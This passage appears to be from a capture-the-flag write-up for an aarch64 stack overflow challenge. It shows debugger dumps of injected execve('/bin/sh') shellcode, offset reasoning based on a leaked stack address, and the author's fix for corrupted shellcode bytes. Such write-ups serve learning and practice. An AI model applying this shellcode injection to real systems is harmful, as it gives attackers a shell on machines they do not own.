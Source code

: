 
since a stack address is given, we can probably inject shellcode, calculate offset and then go there!


indeed my plan worked! The leaked address + 0x20 would alreadys go to the place where our shellcode starts!

but seems like the shellcode size is always too large

```
 X29  0x4141414141414141 ('AAAAAAAA')
 SP   0x7f7ffc9ffc10 ◂— 0x68732f6e69622f /* '/bin/sh' */
 LR   0x7f7ffc9ffc20 ◂— 0xf2adcd20d28c45e0
 PC   0x7f7ffc9ffc3c ◂— 0xfc9ffd9800000001
────────────────────────────────────────────[ DISASM / aarch64 / set emulate on ]────────────────────────────────────────────
   0x7f7ffc9ffc28    movk   x0, #0x732f, lsl #32
   0x7f7ffc9ffc2c    movk   x0, #0x68, lsl #48
   0x7f7ffc9ffc30    str    x0, [sp, #-0x10]!
   0x7f7ffc9ffc34    mov    x0, sp
   0x7f7ffc9ffc38    mov    x8, #0xdd                X8 => 0xdd
 ► 0x7f7ffc9ffc3c    udf    #1





──────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ x0 sp 0x7f7ffc9ffc10 ◂— 0x68732f6e69622f /* '/bin/sh' */
01:0008│       0x7f7ffc9ffc18 —▸ 0x7f7ffc9ffc20 ◂— 0xf2adcd20d28c45e0
02:0010│       0x7f7ffc9ffc20 ◂— 0xf2adcd20d28c45e0
03:0018│       0x7f7ffc9ffc28 ◂— 0xf2e00d00f2ce65e0
04:0020│       0x7f7ffc9ffc30 ◂— 0x910003e0f81f0fe0
05:0028│ pc-4  0x7f7ffc9ffc38 ◂— 0x1d2801ba8
06:0030│       0x7f7ffc9ffc40 —▸ 0x7f7ffc9ffd98 —▸ 0x7f7ffca00106 ◂— './program'
07:0038│       0x7f7ffc9ffc48 ◂— 1
```

svc #0 becomes udf #1 and corrupted



now I am thinking about writing the shellcode at where the 'B's are -0x48



```
─────────────────────────────────[ DISASM / aarch64 / set emulate on ]──────────────────────────────────
   0x7f86b3dffc24    mov    x2, xzr                   X2 => 0
   0x7f86b3dffc28    mov    x1, xzr                   X1 => 0
   0x7f86b3dffc2c    sub    x8, sp, #0x10             X8 => 0x7f86b3dffc10 (0x7f86b3dffc20 - 0x10)
   0x7f86b3dffc30    mov    x0, x8                    X0 => 0x7f86b3dffc10 ◂— 0x68732f6e69622f /* '/bin/sh' */
   0x7f86b3dffc34    mov    x8, #0xdd                 X8 => 0xdd
 ► 0x7f86b3dffc38    svc    #0 <SYS_execve>
        path: 0x7f86b3dffc10 ◂— 0x68732f6e69622f /* '/bin/sh' */
        argv: 0
        envp: 0
   0x7f86b3dffc3c    udf    #0xa

───────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ sp 0x7f86b3dffc20 ◂— 0xaa1f03e2aa1f03e0
01:0008│    0x7f86b3dffc28 ◂— 0xd10043e8aa1f03e1
02:0010│    0x7f86b3dffc30 ◂— 0xd2801ba8aa0803e0
03:0018│ pc 0x7f86b3dffc38 ◂— 0xad4000001
04:0020│    0x7f86b3dffc40 —▸ 0x7f86b3dffd98 —▸ 0x7f86b3e00106 ◂— './program'
```